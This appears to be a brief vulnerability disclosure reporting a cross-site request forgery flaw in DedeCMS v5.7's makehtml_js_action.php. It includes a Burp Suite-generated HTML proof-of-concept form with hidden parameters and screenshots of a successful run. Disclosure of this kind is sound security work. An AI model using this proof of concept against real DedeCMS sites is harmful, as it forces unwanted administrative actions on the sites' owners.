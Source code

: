 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /src/dede/makehtml_js_action.php
![1](https://github.com/Hckwzh/cms/assets/128144400/0ff33852-71da-44d5-9189-0ea8e130957f)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/makehtml_js_action.php">
      <input type="hidden" name="typeid" value="0" />
      <input type="hidden" name="templet" value="plus&#47;js&#46;htm" />
      <input type="hidden" name="uptype" value="onlyme" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>




```
![2](https://github.com/Hckwzh/cms/assets/128144400/66452dd4-423f-435c-9d01-825221315a1c)



successed

![3](https://github.com/Hckwzh/cms/assets/128144400/0034f699-1d72-48ed-b35a-2d874ab845e2)

